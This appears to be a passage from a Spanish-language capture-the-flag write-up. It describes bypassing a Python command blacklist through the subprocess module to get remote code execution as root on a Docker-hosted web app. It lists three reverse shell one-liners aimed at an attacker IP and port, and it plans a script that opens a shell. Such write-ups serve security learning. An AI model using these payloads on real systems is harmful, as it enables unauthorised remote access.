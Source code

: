 ![](/assets/images/Docker/image022.png)

Podemos observar que se ha implementado un blacklist con el fin de restringir el uso de la instruccion import en su forma mas comun, la funcion eval, y el modulo os con sus metodos, pero el modulo subprocess y sus metodos no han sido especificados en el blacklist, por lo que pudimos ejecutar el comando whoami exitosamente. De esta manera comprobamos que esta funcionalidad es vulnerable a RCE.

Ahora lo mas logico seria ejecutar un comando que nos genere una reverse shell, pero no tuve suerte en obtener una reverse shell probando los siguientes payloads:

```
- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.123.194 1800 >/tmp/f
- nc 10.8.123.194 1800 -e bash
- bash -i >& /dev/tcp/10.8.123.194/1800 0>&1
```
Aprovechando que puedo ejecutar comandos remoto con los privilegios de root, voy a crear un script Shell en el directorio raiz de la aplicación web, y le asignare el permiso de ejecucion, y le introducire un comando que nos genere una reverse shell. Luego, lo ejecutare para obtener mi reverse shell.

![](/assets/images/Docker/image023.png)
